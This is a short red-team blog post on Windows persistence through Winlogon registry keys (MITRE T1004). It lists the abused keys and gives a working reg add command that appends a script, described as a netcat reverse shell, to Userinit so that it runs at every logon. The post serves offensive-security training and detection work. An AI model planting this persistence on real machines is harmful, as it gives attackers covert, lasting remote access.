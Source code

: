 ```yaml
---
layout: post
title: "windows logon helper"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /windows-logon-helper/
---
```


---
layout: post
title: "windows logon helper"
date: 2024-06-18
categories: persistence
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /windows-logon-helper/
---

# Windows Logon Helper

> Winlogon.exe is a Windows component responsible for actions at logon/logoff as well as the secure attention sequence (SAS) triggered by Ctrl-Alt-Delete.
>
> [https://attack.mitre.org/techniques/T1004/](https://attack.mitre.org/techniques/T1004/)

Commonly abused Winlogon registry keys and value for persistence are:

```
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify 
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\shell
```

{% hint style="info" %}
HKCU can also be replaced with HKLM for a system wide persistence, if you have admin privileges.
{% endhint %}

## Execution

Let's run through the techqnique abusing the `userinit` subkey.

Let's see what's currently held at the `userinit`:

```
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v userinit
```

![](<../../.gitbook/assets/image (424).png>)

Let's now add an additional item shell.cmd (a simple reverse netcat shell) to the list that we want to be launched when the compromised machine reboots:

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v userinit /d C:\Windows\system32\userinit.exe,C:\tools\shell.cmd /t reg_sz /f
```

![](<../../.gitbook/assets/image (425).png>)

Rebooting the compromised system executes the c:\tools\shell.cmd, which in turn establishes a reverse shell to the attacking system:

![](<../../.gitbook/assets/image (426).png>)

## References

{% embed url="https://attack.mitre.org/techniques/T1004/" %}
@spotheplanet
